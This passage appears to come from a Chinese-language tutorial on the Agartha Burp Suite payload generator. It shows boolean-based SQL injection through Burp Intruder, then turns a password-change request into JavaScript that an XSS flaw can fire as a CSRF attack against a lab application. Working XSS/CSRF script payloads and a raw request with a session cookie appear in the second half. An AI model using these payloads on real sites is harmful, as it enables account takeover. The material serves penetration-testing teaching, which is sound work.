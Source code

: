 我们将再次使用 Burp 的入侵者来执行我们的攻击。 

**我们应该禁用负载编码，因为我们已经对负载列表进行了编码。**

我们仍然可以 grep Intruder 的结果表，但我们应该知道一些有效的用户名，或者我们可以注意响应长度。让我们来看看后者。

[![Agartha LFI|RCE|Auth|SQL注入等payloads生成器](C:\Users\m\Desktop\agartha\1666793851451.webp)](https://www.ddosi.org/wp-content/uploads/2023/04/1666793851451.webp)

结果表显示，不同的 payload 组合返回相同的结果，我们使用基于布尔的 SQL 注入成功检索了所有用户。

### Http Request to JavaScript Converter – 1: XSS + CSRF

将 Http 转换为 JavaScript 使我们有机会通过 XXS 问题调用 Http 请求，这意味着只需单击一下，我们就可以让受害者调用其他功能。

假设目标应用程序同时存在 XSS + CSRF 问题：

- 反射型XSS 漏洞：/vulnerabilities/xss_r/
- 带密码更改页面的 CSRF：/vulnerabilities/csrf/

因此，我们将创建一个 JavaScript 代码来执行密码更改功能，并通过 XSS 问题调用此代码。

这是一个常规的密码更改请求

```http
GET http://vm/vulnerabilities/csrf/?password_new=password1&password_conf=password1&Change=Change HTTP/1.1
Host: vm
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://vm/vulnerabilities/csrf/
Cookie: PHPSESSID=8qdbvrqrj753qe6qgatukb3g81; security=low
Upgrade-Insecure-Requests: 1
```

我们需要根据这个请求创建我们的 JavaScript 代码。

[![Agartha LFI|RCE|Auth|SQL注入等payloads生成器](C:\Users\m\Desktop\agartha\1667120937743.webp)](https://www.ddosi.org/wp-content/uploads/2023/04/1667120937743.webp)

该代码将保存到您的剪贴板。

```javascript
1) Http request with minimum header paramaters in JavaScript
	<script>var xhr=new XMLHttpRequest();xhr.open('GET','http://vm/vulnerabilities/csrf/?password_new=password1&password_conf=password1&Change=Change');xhr.withCredentials=true;xhr.send();</script>

2) Http request with all header paramaters (except cookies, tokens, etc) in JavaScript, you may need to remove unnecessary fields:
	<script>var xhr=new XMLHttpRequest();xhr.open('GET','http://vm/vulnerabilities/csrf/?password_new=password1&password_conf=password1&Change=Change');xhr.withCredentials=true;xhr.setRequestHeader('Host',' vm');xhr.setRequestHeader('User-Agent',' Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0');xhr.setRequestHeader('Accept',' text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8');xhr.setRequestHeader('Accept-Language',' en-GB,en;q=0.5');xhr.setRequestHeader('Accept-Encoding',' gzip, deflate');xhr.setRequestHeader('Connection',' close');xhr.setRequestHeader('Referer',' http://vm/vulnerabilities/csrf/');xhr.setRequestHeader('Upgrade-Insecure-Requests',' 1');xhr.send();</script>

3) For redirection, please also add this code before '</script>' tag:
	xhr.onreadystatechange=function(){if (this.status===302){var location=this.getResponseHeader('Location');return ajax.call(this,location);}};
```
